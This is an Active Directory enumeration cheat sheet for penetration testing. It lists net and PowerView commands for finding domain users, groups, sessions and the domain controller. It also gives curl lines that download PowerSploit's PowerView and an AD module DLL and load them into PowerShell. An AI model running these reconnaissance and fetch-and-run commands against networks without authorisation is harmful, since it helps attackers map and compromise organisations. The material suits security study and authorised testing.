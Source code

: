 ## Enumeration

### Enumerating Users
  Enumerate all users in the entire domain
```sh
net user /domain
```
  Get information from a specific user
```sh
net user <user> /domain
```
  Enumerate logged users
```sh
Import-Module .\PowerView.ps1
Get-NetLoggedon -ComputerName <computer_name>
```
  Enumerate all active sessions
```
Get-NetSession -ComputerName dc1
```

### Enumerating Groups
  Enumerate all groups in the entire domain
```sh
net group /domain
```
  Get members of local group
```sh
Get-NetLocalGroup -ComputerName <domain> -Recurse (PowerView)
```

### Domain Information
  Find out domain controller hostname
```sh
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
```

### PowerView Module

 Configure ActiveDirectory Module - RSAT
```
curl https://raw.githubusercontent.com/samratashok/ADModule/master/ActiveDirectory/ActiveDirectory.psd1 -o ActiveDirectory.psd1  
curl https://github.com/samratashok/ADModule/blob/master/Microsoft.ActiveDirectory.Management.dll?raw=true -o Microsoft.ActiveDirectory.Management.dll  
Import-Module .\Microsoft.ActiveDirectory.Management.dll  
Import-Module .\ActiveDirectory.psd1  
```
  Powerview
```sh
curl https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1 -o PowerView.ps1
. .\PowerView.ps1
```
